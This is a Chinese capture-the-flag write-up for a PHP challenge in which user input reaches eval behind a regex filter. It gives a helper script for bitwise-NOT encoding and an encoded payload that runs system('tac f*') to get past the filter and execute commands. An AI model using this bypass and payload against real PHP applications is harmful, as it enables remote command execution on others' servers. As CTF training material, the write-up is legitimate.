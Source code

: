 ```php
        if(preg_match('/^\W+$/', $v3)){
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}

```

```
preg_match('/^\W+$/', $v3)
```

此正则表达式用于检查字符串 `$v3` **是否完全由非单词字符组成**，且**不能为空**。（单词字符：字母、数字和下划线）

根据题目我们可以联想到取反，或，异或命令执行，这里随便一个都行

> php中有个有意思的地方，数字是可以和命令进行一些运算的，例如 1-phpinfo();是可以执行phpinfo()命令的。这样就好说了。构造出1-phpinfo()-1就可以了，也就是说 v1=1&v2=1&v3=-phpinfo()-

羽师傅有个取反脚本

```php
<?php
//在命令行中运行

/*author yu22x*/

fwrite(STDOUT,'[+]your function: ');

$system=str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN)); 

fwrite(STDOUT,'[+]your command: ');

$command=str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN)); 

echo '[*] (~'.urlencode(~$system).')(~'.urlencode(~$command).');';

```

直接用就行

![image-20250124220654185](assets/image-20250124220654185.png)

payload:

```
?v1=1&v2=1&v3=-(~%8C%86%8C%8B%9A%92)(~%8B%9E%9C%DF%99%D5)-
```

#### web142
